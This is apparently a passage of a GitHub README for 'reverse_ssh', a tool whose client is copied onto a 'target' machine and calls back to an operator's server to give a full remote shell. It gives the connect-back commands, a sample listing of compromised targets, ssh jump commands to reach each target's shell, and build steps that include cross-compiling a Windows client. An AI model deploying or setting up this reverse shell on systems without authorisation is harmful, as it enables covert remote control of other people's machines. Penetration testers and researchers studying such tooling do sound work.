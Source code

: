 ### Running

```sh
# copy client to your target then connect it to the server
./client -d your.rssh.server.com:3232

# Get help text
ssh your.rssh.server.com -p 3232 help

# See clients
ssh your.rssh.server.com -p 3232 ls -t

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+


# Connect to full shell
ssh -J your.rssh.server.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Or using hostname 

ssh -J your.rssh.server.com:3232 root.wombo

```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.17** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.

Golang allows your to effortlessly cross compile, the following is an example for building windows:

```sh
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file much like the ssh http://man.he.net/man5/authorized_keys, this contains *your* public key.
This will allow you to connect to the RSSH server.

Alternatively, you can use the --authorizedkeys flag to point to a file.
